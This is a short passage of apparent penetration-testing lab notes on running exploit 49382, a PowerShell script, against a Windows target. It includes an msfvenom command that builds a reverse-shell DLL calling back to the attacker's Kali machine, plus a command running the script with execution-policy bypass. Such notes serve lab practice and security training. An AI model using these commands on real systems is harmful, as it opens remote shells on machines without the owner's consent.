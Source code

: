 exploit 49382


Looking at the script we see the need to generate a reverse shell .dll payload. Then execute the .ps1 targeting the .dll.

```bash - kali
sudo msfvenom -p windows/shell_reverse_tcp -f dll -o shell.dll LHOST=$KALI LPORT=445
```

Edit the .ps1 to target the location of the .dll.

![[Pasted image 20220404152727.png]]

Upload both, the dll and ps1 file to target.

```command prompt - windows
powershell.exe -ep bypass .\49382.ps1
```




